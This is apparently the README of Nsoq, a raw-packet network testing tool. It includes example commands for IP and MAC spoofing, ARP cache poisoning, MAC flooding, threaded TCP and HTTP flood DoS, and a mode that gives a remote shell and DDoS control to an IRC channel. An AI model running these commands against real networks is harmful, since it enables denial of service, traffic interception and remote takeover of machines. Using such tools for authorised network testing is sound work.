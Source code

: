 Nsoq official documentation: See [here.](http://www.nsoq.org)
========================================================================


## About
--------

   Nsoq is a Network Security tool for raw packets manipulation that allows a
   large number of options. Its primary purpose is analyze and test several 
   scenarios of TCP/IP environments, such TCP/UDP packets and low levels 
   ARP/RARP packets.<BR/>
   Nsoq can send packets to any target type (like hostnames, IPs and MAC address)
   like handling many fields/headers like: Source/Destination IP address,
   Source/Destination MAC address, TCP flags, ICMP types, TCP/UDP/ICMP packet
   size, payloads ARP/RARP, etc.

   Nsoq is able to operate into the RSOI mode (Remote System over IRC), where 
   the tool can surrender all control of machine resources to some specific IRC
   channel, also called Hive Mind option.
   
   Nsoq exeutes sistematically many types of network based attacks, like packet
   attacks, MAC/IP Spoofing, DoS/DDoS attacks, ARP Poison, MAC Flooding and
   Web Stress Testing.

<BR/>

## Features
-----------

#### Some white options:
- Sends and checks many ICMP packet types: Echo Request, Mask Reply, Information Request, Source Quench, etc.
- Sends and checks the TCP packet headers: bit SYN, ACK, RST, FIN, PUSH , XMAS e NULL FLAGS.
- Server/Client TCP. Also checks TCP packet headers (tcpdump style).
- Check and sends UDP packets.
- Sends and checks ARP/RARP packets (enlace layer).
- [Listen Modes] Listen ICMP, UDP, TCP (packets or connections) and ARP/RARP.
- Threads handler on all modes.
- Sets packet size for all modes.
- Show a packet dump on listen modes (tcpdump style).
- [RSOI mode] Delivers a remote shell under IRC channels (IRCp protocol).
- FTP handler (I/O bound connections like netcat style).
- Arping mode. Sends ARP replies instead of ICMP ping (bypass ICMP ping).

#### Dark Options:
- [DoS/DDoS Attack] WEB Stress HTTP test.
- [DoS/DDoS Attack] WEB Stress TCP test.
- [DoS/DDoS Attack] WEB Stress UDP test.
- [DoS/DDoS Attack] WEB Stress ICMP test.
- [DoS/DDoS Attack] WEB Stress SYN test.
- [DoS/DDoS Attack] WEB Stress ACK test.
- [HIVE MIND] Surrenders remote control of the machine resources to an IRC channel across a remote shell (RSOI mode).
- MAC e IP spoofing.
- [HIVE MIND] Across of an IRC channel, perform a Distributed Denial Of Service (DDoS) attack.
- [ARP Poisoning Attack] Changes the ARP cache table of network neighbors (CAUTION).
- [MAC Flooding Attack] ARP Flooding with MAC/IP address randomly crafted (CAUTION).

<BR/>

##EXAMPLES
-----------

```
   # nsoq -d hexcodes -Ie
      Sends an ICMP packet (Echo Request) to host "hexcodes".

   # nsoq -lI
      ICMP listen mode. Listen for ICMP packets like PINGs.

   # nsoq -It -d www.nsoq.org -c
      Sends ICMP packets (Timestamp Request) on continuous mode to server 
      "www.nsoq.org".

   # nsoq -s 10.1.100.100 -d www.nsoq.org -u -p 4140
      Sends an empty UDP packet with spoofed source ip "10.1.100.100" to host
      "hexcodes" on port 4140.

   # nsoq -d www.nsoq.org -u -p 9000 -P 22000 -F 900 -q 20
      Sends only 20 UDP packets to server "www.nsoq.org" and to port 9000,
      from source port 22000 with flood Delay of 900 miliseconds.

   # nsoq -d 201.1.0.13 -Ie -x 512 -t 50 -z
      Sets Nsoq for send ICMP packets (Echo Request) with size of 512 bytes 
      to host "201.1.0.13" with TTL 50. Don't wait for ICMP Echo ReplY.

   # nsoq -lU -P 59
      Listen UDP packets on local port 59 (all addresses and loopback).

   # nsoq -d hexcodes -Ts -p 6000
      Sends a TCP SYN packet to host "hexcodes" on port 6000.

   # nsoq -lC -P 12345 > file.txt
      Listen TCP connections on local port "12345", and write the received
      data on file 'file.txt'.

   # nsoq -d hexcodes -p 12345 < /etc/hosts
      Connect to host 'hexcodes' reading the file '/etc/hosts. The file
      content will be send over the TCP connection (netcat style).
   
   # nsoq -lT -P 2134 -D
      Listen for TCP packets on local port "2134" and show the packet content.

   # nsoq -d www.nsoq.org -Tr -p 8080 -n 12 -b
      Sends TCP RST packets to server "www.nsoq.org" on port 8080, with 12
      threads and super flood mode (HOT).

   # nsoq -H FF:FF:FF:FF:FF:FF
      Sends an ARP REPLY packet to physical Broadcast FF:FF:FF:FF:FF:FF. (The
      source MAC address and the source IP address will be obtained locally 
      by the active interface. The destination IP address will be NULL).

   # nsoq -i eth2 -h 00:BB:AA:CC:BB:AA -H FF:FF:FF:FF:FF:FF -d 10.1.10.1 -A
      Sends an ARP REQUEST packet by the eth2 interface with source MAC 
      00:BB:AA:CC:BB:AA, to destination physical Broadcast FF:FF:FF:FF:FF:FF,
      asking "Who ??" on the network have the IP address "10.1.10.1". The IP
      "10.1.10.1" (if alive) will respond with an ARP REPLY filled with its
      own MAC/IP address pair.

   # nsoq -s 10.2.2.100 -h 00:CC:AA:CC:BB:AA -H FF:FF:FF:FF:FF:FF
      Sends an ARP REPLY packet to destination physical Broadcast 
      FF:FF:FF:FF:FF:FF saying that the source IP address "10.2.2.100" have
      now the MAC address 00:CC:AA:CC:BB:AA. (Caution: This option changes
      the ARP cache table. Possible ARP poisoning attack).

   # nsoq -a 10.1.50.100
      Send an Arp'ing packet to Host "10.1.50.100". If the host hardware is
      alive on network or LAN, by default an ARP REPLY will be returned.
      Otherwise, nothing happens. This option can be used to bypass ICMP
      filters (PING filters).

   # nsoq -f 250000
      Send 250000 ARP REPLY packets (to physical broadcast) with the
      fields (SOURCE MAC, DESTINATION MAC, SOURCE IP and DESTINATION IP
      ADDRESSESS) randomly generated.

   # nsoq -lA -D
      Listen for ARP/RARP packets. Does a listen action for all incoming
      ARP/RARP packets on link layer, and show the packet content.

   # nsoq -N irc.quakenet.org -L Cybers
      Sets the Nsoq to connect on IRC Server "irc.quakenet.org" on channel
      #Cybers. This option puts Nsoq on the RSOI mode. So, the Nsoq 
      will be NO AVAILABLE to be controled by user. Only the users on IRC
      server "irc.quakenet.org" channel #Cybers can do this.

   # nsoq -d 10.0.0.1 -W -n 40
      Sets the Nsoq to "WEB Stress Mode". This option puts Nsoq to send HTTP
      requests (GET method) on super flooding mode to host "10.0.0.1" on port
      80 (WEB HTTP) with 40 threads. This stress test attempts to exhaust the
      services on port 80 (Web Server) and check the target's limit response.
```

<BR/>

## SECURITY
-----------

   Nsoq need superuser privileges (root) for operation and execution. DO NOT
   use the stick bit to allow root privilegies. This is not recommended and
   may allow involuntary or agressive DoS/DDoS attacks. The privileged Nsoq
   use also allows users manipulate the ARP cache table of neighbors on
   network, or put the system over a remote control.

<BR/>

## DISPONIBILITY
----------------

   Nsoq is licensed under GPL and Free Software Foundation.<BR/> 
   A copy of the license accompanies the software.<BR/>
   Licensed under GPL 3 - Copyright (C) Felipe Ecker.
   
   Nsoq can be freely downloaded here: 
   [http://www.nsoq.org](http://www.nsoq.org)
